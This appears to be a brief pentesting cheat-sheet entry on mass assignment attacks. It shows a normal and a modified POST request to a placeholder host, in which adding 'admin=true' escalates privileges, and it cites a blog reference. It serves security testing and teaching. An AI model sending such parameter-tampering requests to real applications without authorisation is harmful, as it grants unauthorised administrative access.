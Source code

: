 # Mass Assignment Attack

## Introduction
Occurs when an app allows a user to manually add parameters in an HTTP Request & the app process value of these parameters when processing the HTTP Request & it affects the response that is returned to the user. Usually occurs in Ruby on Rails / NodeJS

## How to exploit
- Normal request
```
POST /editdata
Host: vuln.com

username=daffa
```
```
HTTP/1.1 200 OK
...

username=daffa&admin=false
```

- Modified Request 
```
POST /editdata
Host: vuln.com

username=daffa&admin=true
```

```
HTTP/1.1 200 OK
...

username=daffa&admin=true
```

## References
* [Pentester Academy](https://blog.pentesteracademy.com/hunting-for-mass-assignment-56ed73095eda)